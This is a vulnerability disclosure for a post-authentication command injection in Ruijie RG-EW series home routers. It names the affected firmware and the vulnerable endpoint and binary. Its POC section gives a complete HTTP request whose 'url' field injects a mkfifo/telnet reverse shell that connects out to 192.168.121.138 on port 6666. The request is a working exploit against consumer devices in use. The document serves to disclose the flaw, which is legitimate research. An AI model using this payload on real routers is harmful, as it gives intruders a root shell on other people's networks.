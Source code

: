 ## Regarding the Post-Authorization RCE in Ruijie Home Router EW Series Devices
Reported by:Sheep
### Affected Versions:

- RG-EW5100BE PRO latest version EW_3.0B11P280_EW5100BE-PRO_12183019
- Theoretically applies to all EW series devices

Download link: https://www.ruijie.com.cn/fw/rj-cp-ew5100bepro/

# Overview

**In the Ruijie RG-EW series routers, there exists an authorization-based command injection vulnerability by sending a POST request containing a specific URL field to /cgi-bin/luci/api/cmd.**

# Vulnerability details

**Under /usr/sbin/unifyframe-sgi.elf**

![image-20250921000358833](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146491.png)

**For the url field in the data field, only** `$(` **and** `<` **were filtered, yet command execution still occurred afterwards.**

![image-20250921000536168](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146493.png)

# POC

Send the following POST request to `/cgi-bin/luci/api/cmd`.

```url
POST /cgi-bin/luci/api/cmd?auth=24fde8726283b2b2e656f2f438751d13 HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6,zh-HK;q=0.5
Cookie: SN=a55fa66d7c919385ee10997fadb8c379; __APP_LANG__=zh_cn

{
    "method": "devSta.get",
    "params": {
        "module": "123",
        "from_url": 1,
        "data" : {"kkk":"abcd","url": "192.168.121.160\" -o /dev/null; mkfifo /tmp/test;telnet 192.168.121.138 6666 0</tmp/test|/bin/sh > /tmp/test ; echo \""}
              }
}
```

# Attack Demonstration

![image-20250922214553006](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146494.png)


![image-20250922214609353](https://cdn.jsdelivr.net/gh/s1nec-1o/photo@main/img/202509222146495.png)
